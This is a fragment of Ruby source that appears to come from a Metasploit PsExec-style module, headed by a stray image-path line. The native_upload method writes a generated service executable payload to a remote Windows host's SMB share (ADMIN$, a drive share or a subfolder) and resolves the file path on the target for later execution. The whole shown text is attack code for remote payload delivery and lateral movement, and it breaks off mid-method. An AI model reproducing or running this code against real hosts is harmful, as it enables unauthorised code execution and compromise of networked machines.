  def native_upload
    filename = datastore['SERVICE_FILENAME'] || "#{rand_text_alpha(8)}.exe"
    servicename = datastore['SERVICE_NAME'] || rand_text_alpha(8)
    serviceencoder = datastore['SERVICE_STUB_ENCODER'] || ''

    # Upload the shellcode to a file
    print_status("Uploading payload...")
    smbshare = datastore['SHARE']
    fileprefix = ""
    # if SHARE = Users/sasha/ or something like this
    if smbshare =~ /.[\\\/]/
      subfolder = true
      smbshare = datastore['SHARE'].dup
      smbshare = smbshare.gsub(/^[\\\/]/,"")
      folder_list = smbshare.split(/[\\\/]/)
      smbshare = folder_list[0]
      fileprefix = folder_list[1..-1].map {|a| a + "\\"}.join.gsub(/\\$/,"") if folder_list.length > 1
      simple.connect("\\\\#{datastore['RHOST']}\\#{smbshare}")
      fd = smb_open("\\#{fileprefix}\\#{filename}", 'rwct')
    else
      subfolder = false
      simple.connect("\\\\#{datastore['RHOST']}\\#{smbshare}")
      fd = smb_open("\\#{filename}", 'rwct')
    end
    exe = ''
    opts = { :servicename => servicename, :serviceencoder => serviceencoder}
    begin
      exe = generate_payload_exe_service(opts)

      fd << exe
    ensure
      fd.close
    end

    if subfolder
      print_status("Created \\#{fileprefix}\\#{filename}...")
    else
      print_status("Created \\#{filename}...")
    end

    # Disconnect from the share
    simple.disconnect("\\\\#{datastore['RHOST']}\\#{smbshare}")

    # define the file location
    if datastore['SHARE'] == 'ADMIN$'
      file_location = "%SYSTEMROOT%\\#{filename}"
    elsif datastore['SHARE'] =~ /^[a-zA-Z]\$$/
      file_location = datastore['SHARE'].slice(0,1) +  ":\\#{filename}"
    else
      file_location = "\\\\127.0.0.1\\#{smbshare}\\#{fileprefix}\\#{filename}"
    end
